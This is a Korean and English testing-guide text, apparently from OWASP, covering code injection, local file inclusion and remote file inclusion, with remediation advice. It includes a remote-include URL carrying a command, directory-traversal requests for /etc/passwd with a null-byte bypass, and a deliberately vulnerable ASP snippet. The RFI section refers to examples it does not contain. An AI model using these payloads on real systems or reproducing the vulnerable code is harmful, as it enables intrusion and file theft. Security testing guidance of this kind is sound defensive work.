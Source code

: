============================================================================================
OTG-INPVAL-012 (코드 인젝션 침투 테스트)
============================================================================================

|

개요
============================================================================================

이 섹션은 테스터가 웹 서버에 의해 실행되거나 웹 페이지에 코드를 삽입할 수 있는 지 확인하는 방법을 설명합니다.
코드 인젝션 테스트는 동적 코드 또는 포함된 파일로 웹 서버에 의해 처리할 입력을 제출합니다.
이 테스트는 다양한 서버 사이드 스크립트 엔진(ASP 또는 PHP)을 대상으로 할 수 있습니다.
적절한 입력 유효성 검사와 보안 코딩 연습은 이러한 공격을 방지하기 위해 공부할 필요가 있습니다.

|

테스트 방법
============================================================================================

|

Black Box testing
---------------------------------------------------------------------------------------

PHP 인젝션 취약점 테스트
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

쿼리 스트링을 사용하여 테스터는 포함된 파일의 일부로 처리할 코드를 삽입할 수 있습니다.


**예상결과**

.. code-block:: html

    http://www.example.com/uptime.php?pin=http://www.
    example2.com/packx1/cs.jpg?&cmd=uname%20-a


악성 URL은 PHP 페이지의 파라미터로서 받아들여지고, 이 후 포함된 파일의 값을 사용할 것입니다.

|

Gray Box testing
---------------------------------------------------------------------------------------

ASP 인젝션 취약점 테스트
^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^^

사용자 입력 ASP 코드 중 실행 함수를 사용하는 지 검사합니다.
사용자가 데이터 입력 필드에 명령을 입력할 수 있는지 확인합니다.

파일로 입력 값을 저장하여 실행하는 ASP 코드:

.. code-block:: html

    <%
    If not isEmpty(Request( "Data" ) ) Then
    Dim fso, f
    'User input Data is written to a file named data.txt
    Set fso = CreateObject("Scripting.FileSystemObject")
    Set f = fso.OpenTextFile(Server.MapPath( "data.txt" ), 8, True)
    f.Write Request("Data") & vbCrLf
    f.close
    Set f = nothing
    Set fso = Nothing
    'Data.txt is executed
    Server.Execute( "data.txt" )
    

.. code-block:: html

    Else
    %>
    <form>
    <input name="Data" />
    <input type="submit" name="Enter Data" />
    </form>
    <%
    End If
    %>)))

|

References
============================================================================================

- Security Focus: http://www.securityfocus.com
- Insecure.org: http://www.insecure.org
- Wikipedia: http://www.wikipedia.org
- OS Injection을 위한 코드 검토

|

|

============================================================================================
로컬 파일 인클루션 테스트
============================================================================================

개요
============================================================================================

로컬 파일 인클루션 취약점은 일반적으로 대상 어플리케이션에서 구현되는 "동적 파일 인클루션" 
메카니즘을 이용하여, 공격자가 파일을 포함 할 수 있습니다.
이 취약점으로 인해 적절한 검증없이 사용자가 제공한 입력 사용 때문에 발생합니다.


This can lead to something as outputting the contents of the file, but depending on the severity, it can also lead to:

- 웹 서버에서 코드 실행
- XSS와 같이 또 다른 공격을 할 수 있는 자바스크립트와 같은 코드 실행
- DoS
- 민감한 정보 노출


Local File Inclusion (also known as LFI) is the process of including
files, that are already locally present on the server, through the
exploiting of vulnerable inclusion procedures implemented in the
application. 
This vulnerability occurs, for example, when a page
receives, as input, the path to the file that has to be included and
this input is not properly sanitized, allowing directory traversal
characters (such as dot-dot-slash) to be injected. 
Although
most examples point to vulnerable PHP scripts, we should keep
in mind that it is also common in other technologies such as JSP,
ASP and others.

|

테스트 방법
============================================================================================

Since LFI occurs when paths passed to "include" statements are
not properly sanitized, in a blackbox testing approach, we should
look for scripts which take filenames as parameters.

다음 예를 살펴 보겠습니다.

.. code-block:: html

    http://vulnerable_host/preview.php?file=example.html

This looks as a perfect place to try for LFI. 

If an attacker is lucky enough, and instead of selecting the appropriate page from the 
array by its name, the script directly includes the input parameter,
it is possible to include arbitrary files on the server.

일반적인 개념 증명은 passwd 파일을 로드하는 것입니다.:

.. code-block:: html

    http://vulnerable_host/preview.php?file=../../../../etc/passwd

위에서 언급한 조건이 충족될 경우, 공격자는 아래와 같은 내용을 볼 수 있습니다.:

.. code-block:: html

    root:x:0:0:root:/root:/bin/bash
    bin:x:1:1:bin:/bin:/sbin/nologin
    daemon:x:2:2:daemon:/sbin:/sbin/nologin
    alex:x:500:500:alex:/home/alex:/bin/bash
    margo:x:501:501::/home/margo:/bin/bash
    ...


Very often, even when such vulnerability exists, its exploitation is a bit more complex. 

다음 코드 일부를 살펴 보겠습니다.


.. code-block:: html

    <?php "include/".include($_GET['filename'].".php"); ?>

접미사에 'PHP'가 추가될 경우, 임의의 파일 이름의 간단한 치환은 작동하지 않을 것입니다.

그것을 우회하기 위해서는 널 바이트 종료 문자가 사용됩니다.

%00는 문자열의 끝을 표시하기 때문에, 모든 문자는 이 특수 바이트 이후 무시될 것입니다.

따라서, 다음 요청 또한 공격자에게 기본 사용자 속성 리스트를 리턴할 것입니다.

.. code-block:: html

    http://vulnerable_host/preview.php?file=../../../../etc/passwd%00

|

References
============================================================================================

- Wikipedia: http://www.wikipedia.org/wiki/Local_File_Inclusion
- Hakipedia: http://hakipedia.com/index.php/Local_File_Inclusion

|

Remediation
============================================================================================

파일 인클루션 취약점을 제거하기 위한 가장 효율적인 방법은 파일 시스템 및 프레임워크 API에
사용자가 제공하는 입력이 지나가는 걸 피하는 것입니다.

만약 어플리케이션에서 위와 같은 설정이 불가능하다면, 파일의 화이트리스트를 유지, 선택한 파일에 대한 접근을 확인하는 식별자를 사용할 수 있습니다.

Any request containing an invalid identifier has to be rejected, in this way there is no attack surface for malicious users to manipulate the path.

|

|

============================================================================================
리모트 파일 인클루션 테스트
============================================================================================

개요
============================================================================================

파일 인클루션 취약점은 일반적으로 대상 어플리케이션에서 구현되는 "동적 파일 인클루션" 
메카니즘을 이용하여, 공격자가 파일을 포함 할 수 있습니다.
이 취약점으로 인해 적절한 검증없이 사용자가 제공한 입력 사용 때문에 발생합니다.

This can lead to something as outputting the contents of the file, 
but depending on the severity, it can also lead to:

- 웹 서버에서 코드 실행
- XSS와 같이 또 다른 공격을 할 수 있는 자바스크립트와 같은 코드 실행
- DoS
- 민감한 정보 노출

Remote File Inclusion (also known as RFI) is the process of including
remote files through the exploiting of vulnerable inclusion procedures
implemented in the application. 
This vulnerability occurs, for example, when a page receives, as input, 
the path to the file that has to be included and this input is not properly 
sanitized, allowing external URL to be injected. 
Although most examples point to vulnerable PHP scripts, we should keep in 
mind that it is also common in other technologies such as JSP, ASP and others.

|

테스트 방법
============================================================================================

Since RFI occurs when paths passed to "include" statements are not properly 
sanitized, in a blackbox testing approach, we should look for scripts which 
take filenames as parameters. 
Consider the following PHP example:

In this example the path is extracted from the HTTP request and no
input validation is done (for example, by checking the input against a
white list), so this snippet of code results vulnerable to this type of
attack. Consider infact the following URL:

In this case the remote file is going to be included and any code contained
in it is going to be run by the server.

|

References
============================================================================================

Whitepapers
------------------------------------------------------------------------------------

- "Remote File Inclusion": http://projects.webappsec.org/w/page/13246955/Remote%20File%20Inclusion
- Wikipedia: "Remote File Inclusion": http://en.wikipedia.org/wiki/Remote_File_Inclusion

|

Remediation
============================================================================================

The most effective solution to eliminate file inclusion vulnerabilities
is to avoid passing user-submitted input to any filesystem/framework
API. If this is not possible the application can maintain a white
list of files, that may be included by the page, and then use an identifier
(for example the index number) to access to the selected file. Any
request containing an invalid identifier has to be rejected, in this way
there is no attack surface for malicious users to manipulate the path.



